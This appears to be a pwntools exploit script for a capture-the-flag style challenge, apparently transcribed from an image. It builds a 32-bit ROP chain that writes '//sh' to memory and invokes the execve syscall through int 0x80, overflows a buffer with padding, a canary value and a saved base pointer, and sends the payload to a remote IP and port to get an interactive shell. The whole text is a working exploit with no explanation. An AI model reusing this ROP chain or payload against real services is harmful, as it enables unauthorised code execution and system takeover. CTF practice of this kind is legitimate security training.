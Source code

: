 ```
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += b'//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x80
canary = 0x080da000
save_base_pointer = 0xffffd008
def exploit():
	payload = b"a"*20 + p32(canary) + p32(save_base_pointer) + p 
#	__breakpoint="""
#		b*0x080488d0
#		"""
#	gdb.attach(io,__breakpoint)
	io.recvuntil("Can you ROP your way out of this one?")
	io.sendline(payload)
	io.interactive()



#io = process(BIN)
io = remote("45.122.249.68",10006)
#context.log_level='debug'
exploit()


```
